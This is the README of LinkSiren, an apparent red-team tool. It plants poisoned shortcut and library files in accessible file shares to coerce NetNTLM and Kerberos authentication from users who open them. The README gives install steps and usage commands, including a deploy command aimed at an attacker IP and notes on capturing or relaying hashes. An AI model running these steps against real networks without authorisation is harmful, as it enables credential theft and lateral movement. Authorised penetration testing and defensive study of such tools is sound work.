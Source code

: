 # LinkSiren

[![Latest Version](https://img.shields.io/pypi/v/LinkSiren.svg)](https://pypi.python.org/pypi/LinkSiren/)
[![Python Versions](https://img.shields.io/badge/python-3.9%2B%20%7C%20PyPy-blue.svg)](https://pypi.org/project/linksiren/)
[![GitHub License](https://img.shields.io/github/license/gjhami/LinkSiren)](https://github.com/gjhami/LinkSiren/blob/main/LICENSE)

_The Siren waits thee, singing song for song._ - Walter Savage Landor

LinkSiren is your new favorite escalation tactic when you're stuck as a non-privileged user with lots of access to file shares. LinkSiren distributes .library-ms, .searchConnector-ms, .url, and .lnk files to optimal locations in accessible file shares to coerce NetNTLM and Kerberos authentication over SMB and HTTP from users that open them and stars the Webclient service on their machines. It's like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but it identifies the best place to put the files for maximum coercion, has scalable deployment and cleanup built in, and generates detailed logs useful for client engagements.

# Installation
Using [uv](https://github.com/astral-sh/uv) (Recommended)
```
# Install from the main branch
uv tool install git+https://github.com/gjhami/LinkSiren.git
# uv tool install linksiren # Or install the latest release from PyPi
```

<details><summary>Alternatively, install from source</summary></details>

# Typical Usage
```bash
# Identify optimal locations for poisoned file deployment
linksiren identify --targets <shares file> [domain]/username[:password]

# Deploy to identified locations
linksiren deploy --attacker <attacker IP> [domain]/username[:password]

# Capture hashes / relay authentication / exploit the WebClient service

# Cleanup poisoned files
linksiren cleanup [domain]/username[:password]
```

# Detailed Usage
1. Create a targets file for crawling containing accessible hosts, shares, or folders on each line in the following format. If a host is specified, shares will be identified on the host and treated as the next level of depth for crawling:
```
\\server1.domain.tld\
\\server2.domain.tld\share1
\\server3.domain.tld\share2\folder1\subfolder1
```
